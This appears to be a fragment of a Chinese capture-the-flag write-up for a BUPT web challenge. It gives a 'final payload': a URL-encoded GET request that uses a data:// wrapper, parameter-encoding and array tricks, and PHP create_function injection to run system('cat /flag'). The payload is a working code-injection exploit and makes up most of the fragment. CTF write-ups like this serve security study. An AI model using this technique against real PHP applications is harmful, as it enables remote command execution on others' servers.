 使用create_function.

https://paper.seebug.org/755/



最终payload:

> GET:https://ctf8081.bupt.edu.cn/?%62%75%70%74=%62%75%70%74%69%73%66%75%6e%0a&l%69upi[]=1&ia=data://text/plain;charset=unicode,%62%75%70%74%69%73%66%75%6e&%6c%69%75%70%69[]=&%66%6c%61%67[action]=%5Ccreate_function&%66%6c%61%67[arg]=return%202333;%7Dsystem('cat /%66%6c%61%67');%2f%2f
>
> POST:flag=1&bupt=&ia=

### 